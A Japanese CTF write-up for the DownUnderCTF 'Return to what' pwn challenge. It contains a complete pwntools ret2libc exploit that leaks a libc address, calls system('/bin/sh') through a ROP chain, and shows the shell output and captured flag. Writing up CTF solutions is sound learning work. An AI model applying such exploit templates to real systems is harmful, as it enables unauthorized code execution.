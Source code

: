 # Return to what:pwn:200pts
This will show my friends!  
nc chal.duc.tf 30003  
Attached files:  
- return-to-what (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)  
[return-to-what](return-to-what)  

# Solution
return-to-whatなので、おそらくlibcへ飛ばしてやれば良い。  
pwntoolsがすべてやってくれる。  
ret2libcのテンプレを使う。  
```python:hack.py
from pwn import *

elf = ELF('./return-to-what')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = remote('chal.duc.tf', 30003)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 56
print(io.recvline())
print(io.recvline())
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
recieved = io.recvline().strip()
print(recieved)
print(io.recvline())

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))

payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ ls
hack.py  return-to-what
$ python hack.py
[*] '/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403ff0
[*] pop rdi gadget: 0x40122b
b"Today, we'll have a lesson in returns.\n"
b'Where would you like to return to?\n'
b'\xb0J\xf8LM\x7f'
b"Today, we'll have a lesson in returns.\n"
[*] Leaked libc address,  __libc_start_main: 0x7f4d4cf84ab0
[*] Address of libc 0x7f4d4cf63000
[*] /bin/sh 0x7f4d4d116e9a
[*] system 0x7f4d4cfb2440
[*] Switching to interactive mode
Where would you like to return to?
$ ls
flag.txt
return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```
flag.txt内にflagが書かれていた。  

## DUCTF{ret_pUts_ret_main_ret_where???}